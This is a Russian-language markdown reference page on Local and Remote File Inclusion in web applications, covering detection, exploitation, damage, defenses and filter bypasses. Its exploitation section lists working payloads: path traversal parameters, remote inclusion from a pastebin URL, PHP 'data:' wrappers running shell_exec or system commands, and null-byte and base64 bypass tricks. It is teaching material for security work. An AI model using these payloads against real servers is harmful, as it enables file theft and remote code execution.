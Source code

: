 

# уязвимость/атака

## Описание
Атака представляет из себя передачу неправильного имени файла в качестве параметра запроса. Она эксплуатирует недостаток валидации имен файлов, передаваемых в качестве параметра. Данная атака позволяет чтение/выполнение произвольного файла от имени сервера.


## Классификация
- **LFI (Local File Inclusion)** - чтение локального файла на сервере
- **RFI (Remote File Inclusion)** - исполнение удаленного файла или кода

## Условия
- ОС: любая
- Сервер: чтение файлов - любой, исполнение - позволяющий интерпретирование кода на лету.
- В коде есть функции включения/исполнения (`include` в php, `render` в ruby on rails, и т.д.) или возврат пользователю файла, имя которого передается в запросе.

## Детектирование
- Для выявления необходимо исследовать места, где в качестве параметров запроса имена файлов или конструкции, похожие на имена файлов.
-  Первым шагом является подстановка в качестве параметра имена фалов, часто встречающихся на серверах.
- Подставляются прямые ссылки на файлы и имен файлов без расширения.
- Проверяются особые протоколы сервера, например `data:` php.

## Эксплуатация
Пример уязвимого эндпоинта: `http://vulnerable?page=first`. В коде сервера встречается конструкция `include ($_GET['page'])`
1) При передаче параметра `first` будет выполнен код `include (first)`. Если файл содержит код на php он будет выполнен.
2) Есть возможность передать произвольное имя файла, не обязательно предназначенного для вывода пользователю.
3) При передаче параметра вида `page=../../../../../dir/file` есть возможность выхода за пределы стандартного каталога.
4) Есть возможность читать не только локальные, но и файлы из сети. Например при передаче `page=https://pastebin.com/raw/CzHLDP7F` (в данном файле содержится код `<?php phpinfo(); ?>`) будет выведена информация о сервере.
5) Можем передать код для исполнения напрямую, используя параметр вида `page=data:,<?php some_code ?>`
6) Исполнение shell-команды: `page=data:,<?php shell_exec(command) ?>`/`page=data:,<?php system(command) ?>` или аналогичный код в удаленном файле.

### Инструменты
- [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)

## Ущерб
Возможна следующая эксплуатация данной уязвимости:
- Чтение файлов не предназначенных для чтения сторонними людьми (файлы конфигурации, логи сервера, исходный код продукта).
- Кража баз данных, если они находятся на той же машине.
- Возможность применения XSS.
- Выполнение произвольного кода на сервере.

## Защита
### Основные меры
- Исключение включение файлов, имена которых получены от пользователя.
- Фильтрация имен файлов по белому списку.

### Превентивные меры
- Фильтрация передаваемых имена файлов, так чтобы они могли находиться только в определенной локальной директории.
- Минимально необходимые права для пользователей веб-приложений.
- Запрет включения удаленных файлов и использования оберток php.

## Дополнительно
[https://nvisium.com/blog/2016/01/26/rails-dynamic-render-to-rce-cve-2016-0752.html](https://nvisium.com/blog/2016/01/26/rails-dynamic-render-to-rce-cve-2016-0752.html)

## Обход защиты
- Передача `%00` в конце параметра для отброса приписываемого окончания.
- Использование `data:;base64,base64_encoded_code` или аналогичной функциональности для обхода фильтров.
- Использование обрезания длинных имен [(информация)](https://xakep.ru/2009/09/17/49508/).
- Использование специальных файлов (/proc, con).
- Использование ошибок поиска файлов и коротких имен DOS. [(информация)](https://xakep.ru/2011/07/03/55787/).